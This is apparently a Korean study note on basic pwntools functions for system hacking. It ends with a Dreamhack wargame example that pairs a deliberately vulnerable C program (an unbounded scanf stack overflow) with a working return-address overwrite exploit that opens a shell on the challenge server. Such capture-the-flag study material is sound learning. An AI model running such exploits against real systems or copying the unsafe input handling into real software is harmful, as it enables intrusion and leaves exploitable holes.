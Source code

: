 ```yaml
---
title: "System Hacking - pwntools basic"
categories: [Security, SystemHacking]
tags: [pwntools] # TAG names should always be lowercase
---
```


> pwntools 기본 함수들의 용도에 대한 매우 기본적인 내용 정리

필요하다면, docs 원문을 참조하자. [pwntools api docs](https://docs.pwntools.com/en/latest/)

# pwntools functions

## process & remote

`process`함수는 로컬 바이너리를 대상으로, `remote`는 원격 서버를 대상으로한다.
```python
from pwn import *
p = process('./main')
p = remote('example.com', port) 
```

## send
데이터를 프로세스에 전송하는 함수다.
```python
from pwn import *
p = process('./poc')
p.send(b'A')  # ./poc에 b'A'를 입력
p.sendline(b'A') # ./poc에 b'A' + b'\n'을 입력
p.sendafter(b'output', b'A')  # ./poc가 b'output'을 출력하면, b'A'를 입력
p.sendlineafter(b'output', b'A')  # ./poc가 b'output'을 출력하면, b'A' + b'\n'을 입력
```

## recv
프로세스에서 데이터를 받는 함수. `recv()`, `recvn()`의 차이점을 유의하자. `recvn(n)`은 n바이트를 정확히 받는 반면, `recv(n)`은 __최대__ n바이트 만큼의 데이터를 받는다.

```python
from pwn import *
p = process('./poc')
data = p.recv(1024)  # p가 출력하는 데이터를 최대 1024바이트까지 받아서 data에 저장
data = p.recvline()  # p가 출력하는 데이터를 개행문자를 만날 때까지 받아서 data에 저장
data = p.recvn(8)  # p가 출력하는 데이터를 8바이트만 받아서 data에 저장
data = p.recvuntil(b'hello')  # p가 b'hello'를 출력할 때까지 데이터를 수신하여 data에 저장
data = p.recvall()  # p가 출력하는 데이터를 프로세스가 종료될 때까지 받아서 data에 저장
```

## packing & unpacking
값을 리틀 엔디언 바이트 배열로 변경하거나, 그의 역과정을 수행하는 함수들이 있다. `p32`,`p64`,`u32`,`u64` 함수의 예시만 사용해보자. 함수의 이름처럼 매우 직관적인 기능을 수행한다.

```python
from pwn import *
s32 = 0x41424344
s64 = 0x4142434445464748
print(p32(s32))
print(p64(s64))
s32 = b"ABCD"
s64 = b"ABCDEFGH"
print(hex(u32(s32)))
print(hex(u64(s64)))
```
```shell
# output
b'DCBA'
b'HGFEDCBA'
0x44434241
0x4847464544434241
```

## interactive
입출력을 직접 수행할 수 있게 해준다. shell을 획득했거나 특정 상황에서 직접 입력과 그에 따른 출력을 확인해야 할때 사용하는 함수다.

```python
from pwn import *
p = process('./poc')
p.interactive()
```

## ELF
ELF 헤더의 정보를 확인할수 있게 해주는 함수
```python
from pwn import *
e = ELF('./poc')
puts_plt = e.plt['puts'] # puts()의 PLT주소를 찾아서 puts_plt에 저장
read_got = e.got['read'] # read()의 GOT주소를 찾아서 read_got에 저장
```

## context.log
익스플로잇 로깅. `context.log_level`변수로 로그 레벨을 조절 할 수 있다.

```python
from pwn import *
context.log_level = 'error' # 에러만 출력
context.log_level = 'debug' # 대상 프로세스와 익스플로잇간에 오가는 모든 데이터를 화면에 출력
context.log_level = 'info'  # 중요한 정보들만 출력
```

## context.arch
아키텍처 정보를 지정할 수 있다. 이 값에 따라 몇몇 함수들의 동작이 달라진다.

```python
from pwn import *
context.arch = "amd64" # x86-64 아키텍처
context.arch = "i386"  # x86 아키텍처
context.arch = "arm"   # arm 아키텍처
```

## shellcraft
자주 사용되는 여러 셸 코드들을 제공한다. 그러나 정적으로 생성되는 코드이므로, 제약이 있는 상황에서는 직접 그에 따라 셸코드를 작성하자.

```python
from pwn import *
context.arch = 'amd64' # 대상 아키텍처 x86-64
code = shellcraft.sh() # 셸을 실행하는 셸 코드 
```

## asm
어셈블 기능을 수행한다. 사전에 `context.arch`가 정의되어야한다.
```python
from pwn import *
context.arch = 'amd64' # 익스플로잇 대상 아키텍처 'x86-64'
code = shellcraft.sh() # 셸을 실행하는 셸 코드
code = asm(code)       # 셸 코드를 기계어로 어셈블
```

# pwntools example

[Dreamhack Prob](https://dreamhack.io/wargame/challenges/351/)

취약한 C 코드가 아래와 같이 주어진다.
```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

pwntools를 이용해서 셸을 획득하고, flag파일을 읽어오자.

```python
#!/usr/bin/python3

from pwn import *

#p = process('./rao')
p = remote("host3.dreamhack.games", 14044)

elf = ELF('./rao')
get_shell = elf.symbols['get_shell']       # The address of get_shell()

payload = b'A'*0x30        #|       buf      |  <= 'A'*0x30
payload += b'B'*0x8        #|       SFP      |  <= 'B'*0x8
payload += p64(get_shell)  #| Return address |  <= '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)        # Send payload to './rao'

p.interactive()            # Communicate with shell
```